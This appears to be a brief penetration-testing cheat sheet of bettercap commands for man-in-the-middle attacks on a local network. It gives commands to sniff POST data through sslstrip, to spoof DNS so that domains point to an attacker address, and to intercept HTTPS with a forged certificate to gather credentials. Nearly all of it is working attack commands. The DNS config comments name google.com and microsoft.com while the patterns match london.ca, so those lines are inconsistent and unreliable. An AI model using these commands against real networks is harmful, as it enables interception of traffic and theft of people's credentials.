 
Sniffs POSTs using bettercap and sslstrip
-----------------------------------------
```
# Does not really work well on modern TLS implementations (might be worth a try though....)
bettercap -T 10.10.10.5 --proxy -P POST
```
Intercept DNS traffic 
---------------------
```
# Create config file as below (name the file dns.conf)

# Empty lines or lines starting with # will be ignored.
# redirect *.google.com to the attacker ip address
10.10.10.170 .*london\.ca
# redirect *.microsoft.com to 10.10.10.10
10.10.10.6 .*london\.ca

# Run bettercap 
bettercap --dns ./dns.conf
```
```
MITM SSL/TLS certificate (user will get cert warning) to gather creds
---------------------------------------------------------------------
bettercap -T 10.10.10.5 -X --proxy-https
```
